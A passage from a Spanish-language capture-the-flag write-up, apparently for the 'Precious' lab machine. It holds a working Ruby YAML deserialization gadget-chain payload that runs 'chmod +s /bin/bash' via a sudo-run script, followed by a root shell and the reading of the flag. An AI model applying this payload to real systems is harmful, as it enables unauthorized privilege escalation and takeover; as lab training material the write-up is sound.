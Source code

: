 Cambiamos el **id** por: 
> chmod +s /bin/bash

Con esto nuestra BASH sera **SUID**


```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```
Ejecutamos el comando


```bash
henry@precious:~$ sudo ruby /opt/update_dependencies.rb 
henry@precious:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ 
```
Ahora podemos lanzarnos la bash como root y leemos la flag de root


```bash
henry@precious:~$ bash -p
bash-5.1# whoami && id
root
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# 
bash-5.1# cat /root/root.txt 
85****************************f4
bash-5.1# 
```
Acabamos de comprometer la máquina, Buena suerte.

